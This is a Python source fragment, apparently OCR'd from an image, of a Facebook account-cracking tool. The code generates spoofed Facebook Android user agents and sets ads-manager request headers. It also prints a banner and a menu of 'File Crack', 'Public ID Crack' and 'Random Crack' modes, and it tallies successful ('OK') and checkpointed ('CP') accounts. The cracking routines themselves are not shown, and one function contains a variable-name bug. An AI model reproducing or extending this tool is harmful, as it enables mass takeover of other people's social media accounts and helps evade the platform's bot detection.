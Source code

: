     END = '[FBAN/FB4A;FBAV/374.0.0.20.109;FBBV/381462200;FBDM/{density=2.0,width=720,height=1456};FBLC/en_US;FBRV/382083935;FBCR/1010;FBMF/Green;FBBD/Green;FBPN/com.facebook.katana;FBDV/GREEN 2020;FBSV/11;FBOP/1;FBCA/arm64-v8a:;]'
    ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; {random.choice(model2)} Build/QP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua

def randBuildvsskj():
    END = '[FBAN/EMA;FBBV/352223683;FBAV/291.0.0.12.110;FBDV/SM-G935FD;FBLC/en_GB;FBNG/WIFI;FBMNT/NOT_METERED;FBDM/{density=1.0125}]'
    ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; {random.choice(model2)} Build/QP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua

sys.stdout.write('\x1b]2; Rex\x07')
S = '\033[1;37m'
A = '\x1b[38;5;208m'
R = '\x1b[38;5;46m'
F = '\x1b[38;5;48m'
Z = '\033[1;33m'
head = {'Host': 'adsmanager.facebook.com', 'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"', 'viewport-width': '980'}
logo =                                          """            
//   ) )                               / /                                            
   //___/ /      ___                      / /      ___       / __       ( )      ___   /  
  / ___ (      //___) ) \\ / /           / /     //   ) )   //   ) )   / /     //   ) /   
 //   | |     //         \/ /           / /     //   / /   //   / /   / /     //   / /    
//    | |    ((____      / /\     ((___/ /     ((___( (   //   / /   / /     ((___/ /
\033[1;37m------------------------------------------------
\033[1;37m Owner   :            REX JAHID
\033[1;37m Facebook:            Rex Jahid
\033[1;37m Github  :            Rex_jahid_56
\033[1;37m Version :            19.8
\033[1;37m------------------------------------------------ """
def clear():
    os.system("clear")
    print(logo)    
    
def result(OKs,cps):
    if len(OKs) != 0 or len(cps) != 0:
        print('\n')
        print(47*'-')
        print(' The Process has been Complete...')
        print(' TOTAL OK: %s' % str(len(oks)))
        print(' TOTAL CP: %s' % str(len(cps)))
        print(47*'-')
        input("Press enter to back Rex Menu ")
        exit()

def Jahid():   
    os.system('clear')
    print(logo)
    print(f'[1] File Crack')
    print(f'[2] Public ID Crack')
    print(f'[3] Random Crack ')
    print(f'[4] Create File')
    print(f'[5] Login Tool')
    print(f'[6] Logout Cookie')
    print(f'[7] Remove Trash Files ')
    print(f'[8] Separate Ids')
    print(f'[9] Remove Duplicate IDs')
    print(f'[W] Join Whatsapp Group ')
    print(f'[F] Join Facebook Group ')
    print('')
    select = input('Select Menu>: ')